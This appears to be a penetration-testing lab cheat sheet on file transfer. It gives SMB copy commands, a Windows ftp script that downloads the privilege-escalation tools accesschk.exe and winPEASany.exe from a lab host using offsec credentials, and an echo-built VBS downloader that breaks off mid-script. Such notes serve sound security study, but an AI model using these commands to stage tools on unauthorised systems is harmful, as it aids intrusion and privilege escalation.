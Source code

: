 #### Copy all files
```
copy \\<IP>\<SHARE NAME>\<FILE NAME>\*.* .
```

#### Copy files to SMB
```
copy <FILE> \\<IP>\<SHARE NAME>\<FILE NAME>
```

#### Linux ftp
```
If installed use the ftp package
```

#### Windows ftp
Use native program with the -s parameter to use a input file for the commands
```
echo open 192.168.119.124 21> ftp.txt
echo USER offsec>> ftp.txt
echo lab>> ftp.txt
echo bin >> ftp.txt
echo GET accesschk.exe >> ftp.txt
echo GET winPEASany.exe >> ftp.txt
echo quit >> ftp.txt

ftp -v -n -s:ftp.txt
```

#### Setup FTP server
```
python -m pyftpdlib 21
```

#### Connect to ftp server
```
ftp <IP>
```

#### VBS download files for Windows XP
Create vbs script
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
```